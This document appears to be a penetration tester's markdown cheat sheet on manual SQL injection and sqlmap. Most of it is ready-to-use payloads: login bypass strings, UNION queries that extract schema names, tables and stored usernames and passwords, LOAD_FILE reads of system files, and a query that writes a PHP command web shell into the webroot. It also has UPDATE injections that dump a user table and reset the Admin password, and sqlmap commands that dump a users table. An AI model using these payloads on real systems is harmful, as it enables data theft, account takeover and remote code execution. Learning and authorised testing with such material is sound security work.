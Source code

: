 # Manual SQL Injection
## SQLI steps
1. Find the pattern (beginning and ending) to complete and execute the SQL request
2. Begin the exploitation only using ORDER BY and UNION SELECT statements to show columns of the table
3. You need to know which DBMS is behind
	- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification
4. Create the payload you need to exploit based on the DBMS 
	- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

## Bypass login panel using SQLI (Ex: MySQL)
```sql
# Example : 
SELECT username, password FROM users WHERE username = '1' OR 1=1 -- - AND password = "toto";

# Payloads
# If the parameter to attack is a int type
1 OR 1=1 -- -
# If the parameter to attack is a string type
1' OR 1=1 -- -
```
```sql
# Other way
' OR 1=1 LIMIT 1; #
```
Note about MySQL comments : 
- The reason for using  -- - instead of -- is primarily because of how MySQL handles the double-dash comment style.
	- More details here: [https://blog.raw.pm/en/sql-injection-mysql-comment/](https://blog.raw.pm/en/sql-injection-mysql-comment/)

## Abuse a DBMS (ex: MySQL) using a Union Based statement
1) The first thing to do in union based statement is to determine the number of columns
```sql
# Example :
SELECT username, password FROM users WHERE id = <paylaod>

# USING ORDER BY
# Error :  Unknown column '5' in 'order clause' 
' ORDER BY 5 -- -
# Error :  Unknown column '4' in 'order clause' 
' ORDER BY 4 -- -
# No error : there is 3 columns in the table
' ORDER BY 3 -- -

# USING ORDER BY
# Error : Unknown column '4' in 'group statement'
' GROUP BY 4 -- -
# No error : there is 3 columns in the table
' GROUP BY 3 -- -
```

2) Determine which tables columns are showed
```sql
# We know they are three columns inside the table
' UNION SELECT 1,2,3 -- -
```
![[Pasted image 20210707104318.png]]

3) Inject SQL queries inside the vulnerable parameter
```sql
# We can inject malicious code
' UNION SELECT 1,@@version,current_user() -- -
```
![[Pasted image 20210707104656.png]]

4) Retrieve the database information 
```sql 
# Paylaods used for a MYSQL DBMS
# Extract the databases
' UNION SELECT 1,2,GROUP_CONCAT(0x7c,schema_name,0x7c),4 FROM information_schema.schemata -- -
# Extract the tables
# Warning : do NOT FORGOT the quotes
' UNION SELECT 1,2,GROUP_CONCAT(0x7c,table_name,0x7C),4 FROM information_schema.tables WHERE table_schema="security" -- -
# Extract the columns' names
' UNION SELECT 1,2,GROUP_CONCAT(0x7c,column_name,0x7C),4 FROM information_schema.columns WHERE table_name="users" -- -
# Extract data from the tables
' UNION SELECT 1,2,GROUP_CONCAT(0x7c,username,0x7C,password,0x7C),4 FROM <database_name>.<table_name> -- -
```

## Abuse a DBMS (MySQL) to get code execution
Depends on the :
	- OS
	- Service privileges
	- File permissions
```sql
# Read a file from the filesystem
id = 1 UNION SELECT 1,2 LOAD_FILE('C:/Windows/System32/drivers/etc/hosts')

# Write a file to the webroot and access it using the browser
UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```


## Abuse a DBMS (ex: SQLite) UPDATE statement (You need to know the columns names)
```sql
# Example : 
UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>

# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='


# Don't forget to use parentheses and the "GROUP_CONCAT" command
# Extract table names (Sqlite)
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='

# Extract column names (Sqlite)
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='

# Get information from the table (Sqlite)
# Sqlite -> the || operator is "concatenate"
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='

# Update the field (Sqlite)
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -
```

# SQLMAP
### GET Request:
Link:
- https://www.binarytides.com/sqlmap-hacking-tutorial/

### Command:
```bash
python sqlmap.py -u "http://www.site.com/section.php?id=51"
python sqlmap.py -u "http://www.sitemap.com/section.php?id=51" --dbs
python sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics
python sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users
python sqlmap.py -u "http://www.site.com/section.php?id=51" --dump -D safecosmetics -T users
```

### POST Request:
Link:
- https://hackertarget.com/sqlmap-post-request-injection/

### Command:
```bash
sqlmap.py -r search-test.txt -p tfUPassdge
sqlmap -u "http://10.11.1.252:8000/login_action.php" --method POST --data "username=test&password=test" -p "username" -D "timeclock" --tables
```
